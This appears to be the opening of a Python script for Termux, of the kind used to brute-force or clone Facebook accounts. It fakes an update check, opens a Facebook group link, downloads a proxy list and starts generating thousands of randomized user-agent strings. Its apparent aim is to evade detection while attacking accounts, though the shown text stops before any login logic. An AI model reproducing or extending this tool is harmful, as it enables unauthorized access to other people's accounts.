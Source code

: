 os.system("pkg install espeak")
#-----------------[ SSC-LOL ]-------------------#
 
import requests,bs4,json,os,sys,random,datetime,time,re
import urllib3,rich,base64
from rich.table import Table as me
from rich.console import Console as sol
from bs4 import BeautifulSoup as sop
from concurrent.futures import ThreadPoolExecutor as tred
from rich.console import Group as gp
from rich.panel import Panel as nel
from rich.markdown import Markdown as mark
from rich.columns import Columns as col
from rich import pretty
from rich.text import Text as tekz
from time import localtime as lt
pretty.install()
CON=sol()
 #------------------[ RV RIFAT  ]-------------------#
import os, platform, time, sys
print('\033[97;1m[\033[92;1m+\033[97;1m] \033[0;92mChecking Update...? ')
time.sleep(5)
os.system('clear')
print("\033[97;1m[\033[92;1m+\033[97;1m] \033[0;92mJOIN MY SCRIPT GIFT GROUP")
time.sleep(2)
os.system(f'xdg-open https://facebook.com/groups/554714119911648/')
#------------------[ SSC-LOL]-------------------#
#------------------[ USER-AGENT ]-------------------#
ua = ["Mozilla/5.0 (Linux; Android 8.0.0; LLD-AL20) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Mobile Safari/537.36",]
ua = ["Mozilla/5.0 (Linux; Android 8.0.0; SM-J600GT) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.111 Mobile Safari/537.36",]
ua = ["Mozilla/5.0 (Linux; Android 10; Redmi 5 Plus) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.96 Mobile Safari/537.36",]
ua = ["Mozilla/5.0 (Linux; Android 9; SM-J701MT) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.111 Mobile Safari/537.36",]
ua = ["Mozilla/5.0 (Linux; Android 7.1.1; SM-T560NU) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.111 Safari/537.36",]
ua = ["Mozilla/5.0 (Linux; Android 11; Nokia G10) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.58 Mobile Safari/537.36",]
ua = ["Mozilla/5.0 (iPhone; CPU iPhone OS 15_3_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/19D52",]
ua = ["Mozilla/5.0 (Linux; Android 8.0.0; SM-J330G) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.58 Mobile Safari/537.36",]
ua = ["Mozilla/5.0 (Linux; Android 10; M2006C3LG Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/98.0.4758.101 Mobile Safari/537.36",]
ua = ["Mozilla/5.0 (Linux; Android 11; moto g(40) fusion Build/RRI31.Q1-42-51-12; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/96.0.4664.104 Mobile Safari/537.36",]
 
ugen2=[]
ugen=[]
cokbrut=[]
ses=requests.Session()
princp=[]
try:
    prox= requests.get('https://github.com/Pro-Max-420/Api/blob/main/prox.txt').text
    open('.prox.txt','w').write(prox)
except Exception as e:
    pass
prox=open('.prox.txt','r').read().splitlines()
for xd in range(10000):
    a='Mozilla/5.0 (Symbian/3; Series60/'
    b=random.randrange(1, 9)
    c=random.randrange(1, 9)